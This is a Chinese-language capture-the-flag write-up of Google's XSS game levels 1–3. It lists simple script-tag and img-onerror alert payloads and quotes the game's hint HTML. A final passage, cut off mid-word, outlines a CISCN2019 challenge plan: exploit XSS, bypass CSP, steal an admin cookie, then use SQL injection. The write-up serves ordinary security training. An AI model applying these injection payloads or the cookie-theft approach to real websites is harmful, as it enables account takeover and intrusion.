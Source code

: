 # WEB

## XSS 跨站脚本攻击

题目地址：https://xss-game.appspot.com/level1

```bash
<script>alert(111)</script> 
<img src="http://www.cuc.edu.cn/_upload/site/00/05/5/logo.png">
<img src='aaaaaaa' onerror='alert("1")'/>
```

- level 1题目提示可插入 js 代码 alert 弹出消息框。

![](imgs/1-lev1.png)


- level 2:Persistence is key

> No matter where such user-controlled data comes from, it should be handled carefully.


---

```
&lt;script&gt;alert(111)&lt;/script&gt;

<img src='aaaaaaa' onerror='alert("11111")'/>



This level is sponsored by the letters <i>i</i>, <i>m</i> and 
         <i>g</i> and the attribute <code>onerror</code>.
```

![](imgs/1-lev2.png)

> 一不小心右键源码看见了hint
>

```html

  <div id="hints">
    <ol>
      <li style="display: none" data-hidden="true"><b>1.</b> 
    Note that the "welcome" post contains HTML, which indicates 
         that the template doesn't escape the contents of status messages.
  
    <li style="display: none" data-hidden="true"><b>2.</b> 
    Entering a &lt;script&gt; tag on this level will not work.
         Try an element with a JavaScript attribute instead.
  
    <li style="display: none" data-hidden="true"><b>3.</b> 
    This level is sponsored by the letters <i>i</i>, <i>m</i> and 
         <i>g</i> and the attribute <code>onerror</code>.
         
  
    </ol>
  </div>
```

- level 3

  寻找输入点

![](imgs/1-lev3-input.png)

![](imgs/1-lev3.png)

## CISCN2019华东北赛区web2

https://buuoj.cn/challenges

题目地址:web类 CISCN2019华东北赛区web2

思路：找到XSS注入点，绕过csp限制，获取管理员的cookie，使用管理员的

cookie登录，sql注入得到fla